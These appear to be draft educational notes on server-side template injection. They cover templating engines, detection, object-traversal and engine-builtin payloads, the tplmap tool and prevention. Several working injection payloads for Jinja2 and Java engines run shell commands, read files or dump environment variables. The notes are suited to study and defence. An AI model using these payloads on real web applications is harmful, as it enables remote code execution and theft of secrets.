 # layout
## brief introduction
- what are templates and templating engines?
    - reduces repeating pages (such as blog posts) with easy templates
        - things like formatting titles, authors, etc.
    - allows for easy communication between backend and frontend
    - used in many web frameworks, templating engines
        - Flask, Python, Jinja
        - Express/Vue.js, JavaScript, Angular.js?
        - Hugo, Golang, builtin?
        - Jekyll, layouts
        - Laravel, PHP, Blade

## brief summary in attacking template engines
- methodology 
- detect -> identify -> exploit 
    - read, explore, attack

### ssti, server-side, detection
- introduced by James Kettle in 2015, tons of research in the 
- testing for {{7*7}}
    - returns 49, code is actually run
- common XSS vulnerabilities can lead to template injections

```python
# example backend here
```

### client-side template injections
- more minor category but still possible
- [ ] find example https://book.hacktricks.xyz/pentesting-web/client-side-template-injection-csti
- usually would execute XSS and steal sessions


## techniques
### using language builtins, object traversal
- because code is interpreted in the language, attackers can traverse object inheritance trees to access import modules
- example uses Python string to obtain `subprocess` to run shell
```python
''.__class__.__mro__[1].__subclasses__()[340]('whoami', shell=True, stdout=-1).communicate()[0].strip()
```
<!-- More examples -->
```java
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}
```

- Java builtin T object to run `.getenv()`
```java
T(java.lang.System).getenv()
```

### using engine builtins, comes with engine
- similar but easier ways, depends on the template engine
- shorter payloads

```java
$class.inspect("java.lang.Runtime").type.getRuntime().exec("bad-stuff-here")
```
Jinja2 builtin that generates lorem ipsum text for websites:
```python
{{lipsum.__globals__.os.popen('cat flag.log').read()}}
```
- https://jinja.palletsprojects.com/en/3.1.x/templates/?highlight=lipsum#jinja-globals.lipsum

### tools
#### tplmap.py
- https://github.com/epinna/tplmap
- what does the tool do? fuzzes inputs against lists




## prevention
### sanitization
- filtering out userinput


### sandboxing
- templates would put engines in a "sandbox"
    - research into ways to break out of it